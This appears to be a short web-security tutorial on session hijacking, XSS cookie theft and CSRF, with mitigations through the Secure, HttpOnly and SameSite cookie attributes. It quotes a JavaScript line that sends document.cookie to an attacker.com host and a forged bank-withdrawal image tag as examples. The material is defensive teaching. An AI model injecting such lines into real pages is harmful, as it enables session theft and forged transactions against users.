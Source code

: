 ### Session hijacking

#### Over Http steal cookie
Sending cookies over unencrypted HTTP is a very bad idea.If anyone sees the cookie, they can use it to hijack the user's session, attacker sends victim's cookie as if it was their own, server will be fooled.  

How to mitigation this session hijacking, use the `Set-Cookie: key=value; Secure` cookie attribute will prevent cookie from being sent over unencrypted HTTP connections. An even better solution is use https for entire website.

#### XSS steal cookie
XSS is Cross Site Scripting. What if attacker can insert their code into the webpage? At this point, they can easily exfiltrate the user's cookie. `new Image().src='http://attacker.com/steal?cookie=' + document.cookie`.

The `HttpOnly` cookie attribute can prevent cookie from being read from JavaScript, use `Set-Cookie: key=value; Secure; HttpOnly`.

### CSRF
Consider this HTML embedded in attacker.com:
```html
<h1>Welcome to your account!</h1>
<img src='https://bank.com/avatar.png' />
```
The browser helpfully includes bank.com cookies in all requests to bank.com, even though the request originated from attacker.com, attacker.com can embed user's real avatar from bank.com. What if the embedded HTML is `<img src='https://bank.com/withdraw?from=bob&to=mallory&amount=1000'>`. Attack which forces an end user to execute unwanted actions on a web app in which they're currently authenticated, effective even when attacker can't read the HTTP response. This kind of hijacking is called Cross-Site Request Forgery(CSRF).

How to mitigate CSRF?

The answer is use SameSite cookie attributes, this will prevent cookie from being sent with requests initiated by other sites.  

 - SameSite=None - default, always send cookies
 - SameSite=Lax - withhold cookies on subresource requests originating from other sites, allow them on top-level requests
 - SameSite=Strict - only send cookies if the request originates from the website that set the cookie

This table discribe when the request send to another site, different SameSite attribute send cookie or not:

|Request type|Request example|None|Lax|Strict|
|:----:|----|:----:|:----:|:----:|
|Link|`<a href="..."></a>`|Send|Send|Not|
|Preload|`<link rel="prerender" href="..."/>`|Send|Send|Not|
|Form Get|`<form method="GET" action="...">`|Send|Send|Not|
|Form Post|`<form method="POST" action="...">`|Send|Not|Not|
|iframe|`<iframe src="..."></iframe>`|Send|Not|Not|
|AJAX|`$.get("...")`|Send|Not|Not|
|Image|`<img src="...">`|Send|Not|Not|
